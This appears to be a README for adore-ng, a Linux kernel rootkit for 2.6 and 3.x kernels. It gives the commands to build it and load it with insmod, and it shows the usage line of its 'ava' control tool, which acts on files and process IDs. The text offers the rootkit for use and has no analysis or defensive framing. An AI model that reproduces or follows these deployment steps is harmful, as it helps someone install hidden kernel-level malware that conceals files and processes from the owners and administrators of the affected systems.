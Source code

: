 adore-ng
========

linux rootkit adapted for 2.6 and 3.x

unzip adore-ng-master.zip
cd adore-ng-master
rpm -ivh /mnt/Packages/kernel-devel-2.6.32-220.el6.x86_64.rpm
make
insmod adore-ng.ko #加载模块
./ava
Usage: ./ava {h,u,r,R,i,v,U} [file or PID]
